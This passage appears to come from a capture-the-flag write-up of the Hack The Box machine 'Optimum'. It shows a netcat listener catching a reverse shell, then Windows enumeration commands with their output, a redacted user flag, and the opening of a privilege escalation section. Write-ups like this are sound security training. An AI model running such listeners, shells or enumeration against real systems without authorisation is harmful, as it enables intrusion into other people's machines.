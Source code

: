 - **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:39:44(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.8] 49162
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami && ipconfig /all
whoami && ipconfig /all
optimum\kostas

Windows IP Configuration

   Host Name . . . . . . . . . . . . : optimum
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-C7-7F
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.8(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled
[...]
```

I'm user `kostas` on host `optimum`!

**user.txt:**
```shell
C:\Users\kostas\Desktop>type user.txt
{Redacted}
```

## Privilege Escalation

### kostas to NT AUTHORITY\SYSTEM

After gaining initial foothold, we can **enumerate the system and escalate our privilege to `Administrator` or `NT AUTHORITY\SYSTEM`.**

**Local users:**
```shell
C:\Users\kostas\Desktop>net user
[...]
-------------------------------------------------------------------------------
Administrator            Guest                    kostas                   
```
